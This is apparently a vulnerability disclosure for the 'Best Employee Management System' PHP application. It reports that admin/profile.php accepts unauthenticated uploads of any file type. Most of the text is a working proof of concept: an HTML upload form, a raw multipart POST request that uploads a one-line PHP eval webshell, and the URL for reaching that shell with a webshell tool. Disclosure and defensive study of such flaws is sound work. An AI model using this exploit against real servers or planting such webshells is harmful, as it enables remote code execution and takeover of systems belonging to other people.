




The Best Employee Management System has a foreground file upload vulnerability that could be exploited by an attacker to upload malicious files without authentication, thereby compromising or exploiting the server.


Source code address：https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html


Loopholes in the admin/profile. PHP file, the 'update' code to check if there is a POST request parameters, and after the upload path for/assets/uploadImage/profile /, only need to understand the key down, allowed to upload any file type.




Vulnerability verification：

Mode one：

Construct the upload.html page upload

```
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Test</title>
</head>
<body>
    <form action="http://192.168.80.152/employee/admin/profile.php" method="POST" enctype="multipart/form-data">
        <!-- Hidden old image field -->
        <input type="hidden" name="old_website_image" value="">
        
        <!-- File upload field -->
        <input type="file" name="website_image"><br>
        

        
        <!-- Submit button -->
        <input type="submit" name="update" value="Upload">
    </form>
</body>
</html>
```




Mode two：

Send the data packet directly to upload, the status code is 302, but the server still successfully uploaded the file

```
POST /employee/admin/profile.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------31978535720481
Content-Length: 466

-----------------------------31978535720481
Content-Disposition: form-data; name="old_website_image"

20241208110124.png
-----------------------------31978535720481
Content-Disposition: form-data; name="website_image"; filename="12.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass"]);

-----------------------------31978535720481
Content-Disposition: form-data; name="update"

Upload
-----------------------------31978535720481--

```




Use any webshell administration tool to connect

The path is：http://192.168.80.152/employee/assets/uploadImage/profile/12.php




